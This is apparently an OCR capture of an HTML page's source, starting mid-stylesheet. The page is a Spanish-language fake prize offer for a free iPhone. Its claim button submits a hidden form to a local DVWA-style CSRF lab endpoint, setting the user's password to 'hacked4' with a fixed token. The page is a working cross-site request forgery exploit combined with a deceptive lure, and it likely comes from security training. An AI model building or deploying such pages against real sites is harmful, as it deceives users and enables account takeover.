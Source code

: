 ```html
      background: #fff;
      border-radius: 16px;
      box-shadow: 0 8px 20px rgba(0,0,0,0.2);
      padding: 2rem;
      max-width: 400px;
      text-align: center;
      animation: fadeIn 1s ease;
    }
    .card h1 {
      color: #e63946;
      font-size: 1.8rem;
      margin-bottom: 1rem;
    }
    .card p {
      color: #444;
      font-size: 1rem;
      margin-bottom: 1.5rem;
    }
    .prize-img {
      width: 180px;
      margin-bottom: 1rem;
    }
    .btn {
      background: #06d6a0;
      color: #fff;
      padding: 0.75rem 1.5rem;
      border: none;
      border-radius: 8px;
      font-size: 1.1rem;
      cursor: pointer;
      transition: background 0.3s;
    }
    .btn:hover {
      background: #04b384;
    }
    @keyframes fadeIn {
      from { opacity: 0; transform: translateY(20px); }
      to { opacity: 1; transform: translateY(0); }
    }
  </style>
</head>
<body>
  <div class="card">
    <h1>🎉 ¡Felicidades!</h1>
    <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/f/fa/IPhone_15_Pro.png/200px-IPhone_15_Pro.png" alt="iPhone 15 Pro" class="prize-img">
    <p>Has sido seleccionado para reclamar un <strong>iPhone 15 Pro Max GRATIS</strong>.</p>
    <p>Haz clic en el botón para confirmar tu premio.</p>

    <form action="http://127.0.0.1:8080/vulnerabilities/csrf/" method="POST">
      <input type="hidden" name="password_new" value="hacked4">
      <input type="hidden" name="password_conf" value="hacked4">
      <input type="hidden" name="Change" value="Change">
      <input type="hidden" name="user_token" value="ea39dfa11c5622dd14e1b10b9074f232">
      <button type="submit" class="btn">📦 Obtener iPhone</button>
    </form>
  </div>
</body>
</html>
```
